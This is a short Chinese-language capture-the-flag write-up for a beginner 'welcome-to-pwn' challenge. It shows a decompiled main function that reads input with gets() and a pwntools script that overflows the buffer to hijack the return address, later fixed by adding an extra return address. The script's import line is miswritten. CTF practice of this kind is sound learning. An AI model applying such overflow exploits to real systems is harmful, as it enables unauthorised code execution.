# 题目:welcome-to-pwn
1：拿到题目，发现给了一个无后缀名的attachment文件，很明显这是二进制文件，放进linux里面用checksec看一下  

代码：
> checksec --file=attachment  

2:用IDA按F5反编译一下，找到主函数
>int __fastcall main(int argc, const char **argv, const char **envp)
>{  
>char v4[48]; // [rsp+0h] [rbp-30h] BYREF  
>  
>setvbuf(stdout, 0LL, 2, 0LL);  
>setvbuf(stdin, 0LL, 2, 0LL);  
>setvbuf(stderr, 0LL, 2, 0LL);  
>puts("Welcome to Stringer CTF 2024.");  
>gets(v4);  
>return 0;  
>} 

发现这里的gets函数可以利用，开始构造payload    
>import pwn from *  
>context(arch='amd64',os='linux')  
>p=process('./attachment')  
>payload=b'a'*56+p64(0x400687)  
>p.sendline(payload)  
>p.interactive()  

这是我一开始构造的payload，但是结果有问题。后面问了一个大佬，参考了一下buu pwn 第二题的wp，是什么形成了返回地址劫持～～，但是我也不懂，只知道加个地址就可以了，具体可参考它的题解  
[buu第二题题解链接](https://blog.csdn.net/qy201706/article/details/105397766)  
最后payload改成
>payload=b'a'*56+p64(0x400699)+p64(0x400687)  

即可